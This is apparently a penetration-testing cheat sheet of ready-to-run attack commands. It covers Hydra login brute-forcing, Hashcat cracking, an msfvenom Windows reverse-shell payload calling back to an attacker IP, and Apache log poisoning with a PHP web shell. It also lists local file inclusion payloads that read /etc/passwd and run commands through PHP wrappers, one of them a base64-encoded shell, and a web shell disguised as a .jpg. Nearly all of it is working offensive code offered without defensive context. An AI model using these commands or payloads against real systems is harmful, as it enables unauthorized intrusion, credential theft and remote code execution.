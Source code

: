 ```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

#### HashCat Cracking

```bash
# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout
```

### Generating Payload with msfvenom

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

### Compiling Code From Linux

```bash
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

# Linux
gcc -m32|-m64 -o output source.c
```

### Local File Inclusion to Shell

```bash
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Local File Inclusion: Reading Files

```bash
file:///etc/passwd

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>

expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
```